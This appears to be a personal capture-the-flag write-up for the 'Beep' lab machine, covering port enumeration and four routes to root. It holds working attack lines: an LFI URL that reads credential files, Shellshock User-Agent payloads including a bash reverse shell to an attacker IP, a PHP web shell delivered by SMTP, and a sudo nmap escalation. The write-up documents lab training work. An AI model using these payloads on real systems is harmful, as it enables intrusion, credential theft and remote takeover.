

# Summary


## about target

tip:  10.126.1.226

hostname: Beep 

Difficulty: Easy, not that easy if you missed the key information.


## about attack

+ if you found the web service name, search for the exploit, even if you have no versions.
+ cgi application, check shellshock.
+ exploit 18650, read the exploit and check the param carefully.
+ if you have lfi vulns, check log poision or upload file via smtp.


**attack note**

```bash
beep  


PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.1.226/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3?
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            938/udp   status
|_  100024  1            941/tcp   status
143/tcp   open  imap?
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-09-25T06:19:22+00:00; -1s from scanner time.
941/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_mysql-info: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).


## http  

### 
port 443/80  Elastix   Apache/2.2.3 (CentOS)   PHP/5.1.6

exploit
https://www.exploit-db.com/exploits/37637


gobuster dir -k -u https://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster443.txt
seems rabbit hole, scan for 30 mins longer, not finished.

/admin/config.php FreePBX  2.8.1.4 
https://www.exploit-db.com/exploits/18650

https://www.exploit-db.com/exploits/18650

https://github.com/am0nsec/exploit/blob/master/unix/webapp/FreePBX-2.10/freepbx_2.10_with_ssl.py

https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2012-4869_FreePBX_Elastix_RCE


/mail/   roundcube webmail

/recordings   FreePBX 2.5

/vtigercrm  vtiger CRM 5.1.0


### 
port 10000 MiniServ 1.570 webmin 

found two exploits
https://www.exploit-db.com/exploits/746
https://www.exploit-db.com/exploits/745 

## 4190 
 nc -nv $tip 4190

(UNKNOWN) [10.129.1.226] 4190 (sieve) open
"IMPLEMENTATION" "Cyrus timsieved v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4"

no exploits

## 4445
upnotifyp,  no exploits

## 4559 hylafax  
nc -nv $ip 4559    version 4.3.

no exploits found.

## 5038


ssh root@$tip

Unable to negotiate with 10.129.1.226 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1


https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found


Unable to negotiate with 10.129.1.226 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss

https://www.jianshu.com/p/a17c1f904ffd
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

Host is up (0.40s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.1.226/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3?
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            938/udp   status
|_  100024  1            941/tcp   status
143/tcp   open  imap?
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-09-25T06:19:22+00:00; -1s from scanner time.
941/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_mysql-info: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  
```


## http 80/443

nmap scan, apache httpd

```bash
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.1.226/
|_http-server-header: Apache/2.2.3 (CentOS)

443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-09-25T06:19:22+00:00; -1s from scanner time.
```


dir scan, gobuster; 80 redirect to 443

```bash
gobuster dir -k -u https://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster443.txt

# path found.
/images               (Status: 301) [Size: 314] [--> https://10.129.1.226/images/]
/help                 (Status: 301) [Size: 312] [--> https://10.129.1.226/help/]
/themes               (Status: 301) [Size: 314] [--> https://10.129.1.226/themes/]
/modules              (Status: 301) [Size: 315] [--> https://10.129.1.226/modules/]
/mail                 (Status: 301) [Size: 312] [--> https://10.129.1.226/mail/]
/admin                (Status: 301) [Size: 313] [--> https://10.129.1.226/admin/]
/static               (Status: 301) [Size: 314] [--> https://10.129.1.226/static/]
/lang                 (Status: 301) [Size: 312] [--> https://10.129.1.226/lang/]
/var                  (Status: 301) [Size: 311] [--> https://10.129.1.226/var/]
/panel                (Status: 301) [Size: 313] [--> https://10.129.1.226/panel/]
/libs                 (Status: 301) [Size: 312] [--> https://10.129.1.226/libs/]
/recordings           (Status: 301) [Size: 318] [--> https://10.129.1.226/recordings/]
/configs              (Status: 301) [Size: 315] [--> https://10.129.1.226/configs/]
/vtigercrm            (Status: 301) [Size: 317] [--> https://10.129.1.226/vtigercrm/]

```


check /admin, need basic auth; 

but got the version info, [FreePBX](http://www.freepbx.org) 2.8.1.4 


/mail, got version info

roundcube webmail


/recordings, got version

FreePBX 2.5; different to version from /admin, confusing.


/vtigercrm, got version info.

vtiger CRM 5.1.0


## port 4559

nc connect, got the version. No exploit found.

```bash
## 4559 hylafax  
nc -nv $ip 4559    
```


## port 4190

nc connect, got version; no exploit

```bash
nc -nv $tip 4190

(UNKNOWN) [10.129.1.226] 4190 (sieve) open
"IMPLEMENTATION" "Cyrus timsieved v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4"
```





## port 4445

upnotifyp,  from nmap scan；

nc connect, nothing found.  no exploits


## port 5038

from nmap scan, versions

5038/tcp  open  asterisk   Asterisk Call Manager 1.1

nc connection, nothing.  No exploits.


## port 10000 webmin

MiniServ 1.570 webmin， nothing instresting.

no default/weak pwd.


## search exploit

+ Http 80/443

  failed because of the wrong  extension

  https://www.exploit-db.com/exploits/18650

  https://github.com/am0nsec/exploit/blob/master/unix/webapp/FreePBX-2.10/freepbx_2.10_with_ssl.py

  https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2012-4869_FreePBX_Elastix_RCE

​		missed: 

​		1)forget to search eslastix, pitty. https://www.exploit-db.com/exploits/37637

​		2)extension enum.


+ port 10000 MiniServ 1.570 webmin 

  found two exploits but not the correct path.

  https://www.exploit-db.com/exploits/746

  https://www.exploit-db.com/exploits/745 

​		missed: cgi exploit, shellshock.


+ 4190/4445/4559/5038

  no exploit found.		


# Path 1-eslatix LFI + ssh

search eslatix, LFI and 18650.


check LFI, got password.

https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action


password reuse.  ssh login, got root.


# Path 2- webmin cgi

webmin login,  post request to /session_login.cgi. 


check shellshock. 

```bash
User-Agent: () { :; };sleep 10
```


check 2 sec to verify.


check with ping

```bash
User-Agent: () { :; };ping -c 1 10.10.14.15

sudo tcpdump -ni tun0 icp
```


get shell.

```bash
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.15/443 0>&1

nc -nvlp 443
```


got root.


# Path 3-Eslatix RCE 18650

exploit,Cve-2012-4869,  https://www.exploit-db.com/exploits/18650

Default value of exploit in the exploit is 1000, which is wrong.

change the exploit and run, but failed.

```bash
import ssl
rhost="10.129.1.226"
lhost="10.10.14.15"
lport=443
extension="1000"
```


extension enum.

```bash
svwar -m INVITE -e100-999 10.129.1.226
```


got shell, user asterisk


root is easy, which is already in the exploit. 

sudo namp with interactive param

```bash
sudo nmap --interactive

!bash
```


check sudo -l


# Path 4-LFI+webshell upload

with the LFI,  check the logfie or upload file to get webshell.

check if we can get the log file with burp intruder. 

Dict, https://github.com/tennc/fuzzdb/raw/master/dict/BURP-PayLoad/LFI/LFI-LogFileCheck.txt

can't access.


exploit with smtp. 

with passwd file, we know the user on the target, check with smtp.

```bash
└─$ telnet $tip 25
Trying 10.129.1.226...
Connected to 10.129.1.226.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO localhost
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY test@localhost   #check user if exist.
550 5.1.1 <test@localhost>: Recipient address rejected: User unknown in local recipient table
VRFY asterisk@locahost
554 5.7.1 <asterisk@locahost>: Relay access denied
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
VRFY fanis@localhost
252 2.0.0 fanis@localhost
mail from:test@hack.com   #send mail
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: check the mail.
<?php echo system($_REQUEST['cmd']); ?>
.
250 2.0.0 Ok: queued as 3C79BD92FE

500 5.5.2 Error: bad syntax
^]

telnet> quit
Connection closed.

```


read the mail via lfi.

/var/mail/asterisk


add the cmd param, check rce


get webshell.

```bash
https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash+-i+>%26+/dev/tcp/10.10.14.15/443+0>%261

bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```


privesc via sudo, same to path 3.


## proof

```bash


```


